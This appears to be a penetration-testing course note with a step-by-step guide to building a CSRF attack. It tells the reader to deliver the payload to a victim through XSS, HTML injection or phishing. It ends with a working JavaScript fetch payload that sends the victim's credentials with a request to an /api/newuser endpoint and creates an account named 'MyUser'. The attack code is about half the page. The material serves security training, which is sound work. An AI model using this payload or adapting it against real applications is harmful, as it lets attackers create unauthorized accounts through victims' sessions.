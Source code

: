 #Generic CSRF payload example. 

Saving the payload examples you've created during the course is also useful. This serves as a general guide to writing a CSRF payload.

1. If possible, conduct the action you want the victim to execute within your own browser using Burp Suite so you can see how the payload (params + values) are formatted. 
2. Create a javascript payload.
3. Find a way to have the victim execute the JavaScript payload whether through an XSS, HTML Injection, or Phishing. 
4. Profit.

Example of a JavaScript payload to create a new user. This will create a new user named "MyUser" by targeting the "/api/newuser" API on "https://192.168.1.1". When executed (if you want to test on yourself) the console will output the messages "Creating new user..." when the API is being called then "Should be done now..." when the command has been executed.
```
  var user = "username=MyUser";
  var host = "https://192.168.1.1";
  var api_url = "/api/newuser";
	
function create_user() {
  console.log("Creating a new user...");
  fetch(host+api_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : user }
  ).then(
    console.log("Should be done...")
  );
}

create_user();
```
